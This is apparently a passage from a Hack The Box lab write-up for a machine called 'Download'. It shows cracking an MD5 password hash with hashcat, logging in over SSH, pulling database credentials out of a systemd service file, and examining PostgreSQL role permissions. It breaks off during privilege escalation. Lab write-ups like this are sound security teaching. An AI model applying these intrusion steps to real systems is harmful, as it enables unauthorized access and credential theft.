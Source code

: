           print() 


<a id="org0b6bbe0"></a>

# Foothold

whit this script we had obtain an `md5 pwd` so let's try to crack them with `HashCat`

    hashcat -a 0 -m 0 loots/hash 

and after to try logon in the system

    ssh wesley:<redacted>@download.htb


<a id="org5f279dd"></a>

# Privilage Escaletion

Once inside, we checked the services and found an interesting one.

    systemctl list-unit-files | grep download

    cd /etc/systemd/system && cat download-site.service

So we review the interesting `service configuration` file

    [Unit]
    Description=Download.HTB Web Application
    After=network.target
    
    [Service]
    Type=simple
    User=www-data
    WorkingDirectory=/var/www/app/
    ExecStart=/usr/bin/node app.js
    Restart=on-failure
    Environment=NODE_ENV=production
    Environment=DATABASE_URL="postgresql://download:<redacted>@localhost:5432/download"
    
    [Install]
    WantedBy=multi-user.target

And we see in it the `postgres credentials`, so we connect to it.

    psql -h localhost -p 5432 -U download -W download

And now let's go and review the `database`.

    download => \l

The permission:

      download => \du
                                                List of roles
     Role name |                         Attributes                         |        Member of        
    -----------+------------------------------------------------------------+-------------------------
     download  |                                                            | {pg_write_server_files}
     postgres  | Superuser, Create role, Create DB, Replication, Bypass RLS | {}
